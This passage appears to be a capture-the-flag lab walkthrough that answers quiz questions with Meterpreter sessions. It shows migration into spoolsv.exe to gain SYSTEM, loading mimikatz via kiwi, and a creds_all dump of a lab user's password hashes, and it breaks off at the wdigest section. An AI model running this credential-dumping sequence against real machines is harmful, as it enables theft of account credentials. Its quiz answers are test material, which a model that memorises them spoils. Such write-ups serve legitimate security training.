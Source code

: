 ```
============

 PID   PPID  Name                    Arch  Session  User                          Path
 ---   ----  ----                    ----  -------  ----                          ----
 1368  692   spoolsv.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe

```
**Answer**: `spoolsv.exe`
### What user is listed by `getuid`?
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1432 to 1368...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
**Answer**: `NT AUTHORITY\SYSTEM`
### Which `kiwi` command allows up to retrieve all credentials?
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1432 to 1368...
[*] Migration completed successfully.
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > help
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
```
**Answer**: `creds_all`
### What is Dark's password? 
```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
```